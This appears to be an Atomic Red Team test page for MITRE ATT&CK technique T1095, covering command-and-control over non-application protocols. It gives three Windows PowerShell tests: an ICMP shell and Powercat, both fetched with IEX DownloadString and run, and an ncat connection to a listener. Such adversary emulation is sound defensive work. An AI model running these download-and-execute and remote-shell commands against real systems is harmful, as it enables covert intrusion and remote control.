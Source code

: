 # T1095 - Standard Non-Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1095)
<blockquote>Use of a standard non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive. (Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example. Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts; (Citation: Microsoft ICMP) however, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)


<br/>

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | ip | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | $env:TEMP&#92;T1095&#92;nmap-7.80&#92;ncat.exe|
| ncat_path | The folder path of ncat.exe | path | $env:TEMP&#92;T1095|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c #{ncat_exe} #{server_ip} #{server_port}
```




#### Dependencies:  Run with `powerShell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```powerShell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powerShell
New-Item -ItemType Directory -Force -Path #{ncat_path} | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | ip | 127.0.0.1|
| server_port | The port for the C2 connection | port number | 80|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
